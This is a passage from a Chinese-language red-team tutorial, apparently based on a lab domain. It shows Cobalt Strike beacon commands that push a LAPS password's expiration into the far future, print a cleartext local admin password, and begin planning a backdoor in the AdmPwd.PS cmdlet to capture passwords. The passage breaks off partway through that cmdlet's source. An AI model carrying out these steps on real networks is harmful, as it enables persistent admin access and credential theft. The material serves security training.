 ms-mcs-admpwdexpirationtime
---------------------------
         132609935231523081
```

更新过期时间
```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> powershell Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```

再次查看密码的过期时间
```
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl

ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : P0OPwa4R64AkbJ
ExpirationTimestamp : 2/11/2338 11:05:23 AM
```

**如果管理员使用Reset-AdmPwdPassword cmdlet，或者在LAPS GPO中启用了 "不允许密码过期时间超过策略要求"，密码仍然会重置。**


# LAPS Backdoors

LAPS后门，主要通过修改PowerShell cmdlet里的方法，当管理员进行操作时，我们会得到一个密码的副本

查看PowerShell cmdlet所在文件夹
```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 30kb     fil     09/23/2016 00:38:16   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

[源码](https://github.com/GreyCorbel/admpwd),查看```Get-AdmPwdPassword```这个方法，文件位置：```Main/AdmPwd.PS/Main.cs```
```
[Cmdlet("Get", "AdmPwdPassword")]
public class GetPassword : Cmdlet
{
    [Parameter(Mandatory = true, Position = 0, ValueFromPipeline = true)]
    public String ComputerName;
